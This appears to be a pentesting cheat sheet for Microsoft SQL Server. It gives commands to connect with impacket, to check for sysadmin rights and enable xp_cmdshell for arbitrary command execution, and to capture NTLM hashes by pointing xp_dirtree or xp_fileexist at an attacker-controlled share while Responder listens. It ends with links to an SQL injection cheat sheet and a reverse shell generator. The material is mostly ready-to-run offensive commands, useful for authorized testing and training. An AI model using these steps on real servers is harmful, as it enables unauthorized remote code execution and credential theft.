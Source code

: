 # Microsoft SQL Server
## Notes
If commands are not found or do not work, you may need to install or update it
The commands and tools used here were tested on Kali Linux (Rolling Edition)

## Port
1433

## Connecting
```bash
impacket-mssqlclient <Username>@<IP> -windows-auth
```

## RCE using `xp_cmdshell`
If the following command returns 1, the account has sysadmin privileges and can run remote commands via `xp_cmdshell`.
```bash
SELECT IS_SRVROLEMEMBER('sysadmin') #1
```
If you have sysadmin privileges, you can enable xp_cmdshell and run arbitrary commands by executing
```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell '<Command>';
```

## Capture NTLM hashes using Responder and `xp_dirtree` or `xp_fileexist`
If you do not have sysadmin privileges, you can use Responder with xp_dirtree or xp_fileexist to capture NTLM hashes.
```bash
sudo responder -I tun0 #another terminal

SELECT IS_SRVROLEMEMBER('sysadmin') #0
EXEC xp_dirtree '\\<IP>\<Share>' # or '//<IP>/<Share>'
# EXEC xp_fileexist '\\<IP>\<Share>' or '//<IP>/<Share>'
```

# Reference
[Microsoft SQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

[Reverse shell generator](https://www.revshells.com/)
